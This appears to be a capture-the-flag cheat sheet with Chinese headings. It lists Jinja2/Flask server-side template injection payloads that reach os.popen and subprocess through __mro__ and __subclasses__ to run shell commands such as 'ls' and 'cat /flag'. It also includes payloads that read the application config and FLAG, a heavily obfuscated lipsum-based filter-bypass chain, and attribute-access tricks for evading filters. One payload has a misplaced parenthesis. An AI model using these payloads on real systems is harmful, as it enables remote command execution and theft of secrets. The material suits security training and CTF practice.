 - # 示例
- ```python
  {{().__class__.__mro__[-1].__subclasses__([127].__init__.__globals__['sys'].modules['os'].popen('cmd').read()}}
  
  {{[].__class__.__mro__[1].__subclasses__()[237]('ls',shell=True,stdout=-1).communicate()[0]}}
  
  {{url_for.__globals__['current_app'].config.FLAG}}
  
  {{self.__dict__._TemplateReference__context.config}}
  
  {{(lipsum()|urlencode|first~dict(c=1)|join())*3%(97,98,99)}}
                                            
  ```
- ```python
  self|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*9%(95,95,99,108,97,115,115,95,95))|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*7%(95,95,109,114,111,95,95))|last|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*14%(95,95,115,117,98,99,108,97,115,115,101,115,95,95))()|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*11%(95,95,103,101,116,105,116,101,109,95,95))(349)((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*9%(99,97,116,32,47,102,108,97,103),shell=True,stdout=-1)|attr((lipsum()|string|list|pprint|list|string|safe|urlencode|first~dict(c=1)|join())*11%(99,111,109,109,117,110,105,99,97,116,101))()
  ```
- # 访问属性和物品
	- `request.__class__`
	- `request["__class__"]`
	- `request|attr("__class__")`
	- `array[0]`
	- `array.pop(0)`
	- `array.__getitem__(2)`
-